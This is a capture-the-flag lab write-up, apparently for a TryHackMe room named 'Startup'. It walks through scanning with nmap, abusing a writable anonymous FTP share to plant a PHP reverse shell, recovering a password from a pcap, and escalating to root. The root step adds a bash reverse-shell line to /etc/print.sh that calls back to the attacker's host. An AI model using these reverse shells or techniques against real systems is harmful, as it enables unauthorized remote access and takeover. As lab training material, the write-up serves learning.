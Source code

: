 # Startup

To find out what is on the server, we will have to run an nmap scan on the IP address. I will be using the following command:

```csharp
nmap -T4 -A 10.10.201.52 -oN nmap.txt
```

After the scan is done, we can see that port 21 (usually for FTP) is open:

```csharp
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
```

These files look interesting, so I will download them. I following [this website](https://stackoverflow.com/questions/113886/how-to-recursively-download-a-folder-via-ftp-on-linux) to find out how to download files from ftp recursively, instead of one-by-one. This is the command I entered:

```csharp
wget -r ftp://anonymous:@10.10.201.52
```

I then had 3 items in my local directory: an image, a text file, and a directory called "ftp". I now have to find any useful information from these files. I noticed that in the text file, called "notice.txt, there is a name being used:

> Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.

I did get lost a bit here. I knew we had to upload a file to the ftp directory. If you look above, the ftp directory is able to be read and posted to. That connected with the idea that we can access the ftp files on [http://10.10.201.52/files/](http://10.10.201.52/files/), means that we can upload the php file and then access it through the website. For this, we will have to use a php-reverse-shell.php. I had gotten this hint by looking at the write-up at [this website](https://www.badtothepwn.com/2021/01/startup/). I uploaded the php-reverse-shell.php to the ftp directory using the ftp command line. I then went to the website, and then got a shell:

![netcat shell](<../../.gitbook/assets/image (10) (1) (1) (1).png>)

Using netcat, we can send and receive information. Here we are able to send linux commands. I found the recipe file and it was in the root directory of the system.

![output of recipe.txt](../../.gitbook/assets/screenshot-2021-03-07-162434.png)

I now have to find a way to get more forward in the system. I have found a pcap file that looks suspicious.

![](<../../.gitbook/assets/image (11) (1) (1) (1).png>)

I will have to download it to see where to go from there. I realized that using net cat from the server to my own machine, I would be able to send this file to myself. I used [this website](https://superuser.com/questions/98089/sending-file-via-netcat) to know the command for what to run on both sides. I now have the file downloaded onto my own machine. After getting a hint from [this website](https://hackofalltrades.dev/tryhackmes-startup-walkthrough/), I realized that I would have to look through the packets to find the password. I then found it in the data of a packet.

![](../../.gitbook/assets/screenshot-2021-03-07-165106.png)

From here, I can use it to login to the user "lennie". I then used ssh to connect to the server using that username:

![SSH connection](<../../.gitbook/assets/image (9) (1) (1).png>)

In this directory, there was the file "user.txt". Looking in this, gets us an answer to one of the questions for this room.

![user.txt file](../../.gitbook/assets/screenshot-2021-03-07-165659.png)

Now, I have to find a way to get to root. I did need some help here again. I then referred back to the same website and noticed that I would have to edit a file located in /etc/print.sh. Viewing this website, I realized that I have to add a reverse bash shell to this file. This would make the file look like:

```csharp
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.2.54.229/1234 0>&1
echo "Done!"
```

I will then have to run netcat on my machine, that way I am ready for the netcat connection. Running "nc -vlnp 1234" will allow my machine to be open to a connection through netcat. After a couple minutes, I then got a connection to the root user.

![root access](../../.gitbook/assets/screenshot-2021-03-07-171544.png)

I then had root and also the final flag needed to finish the room.
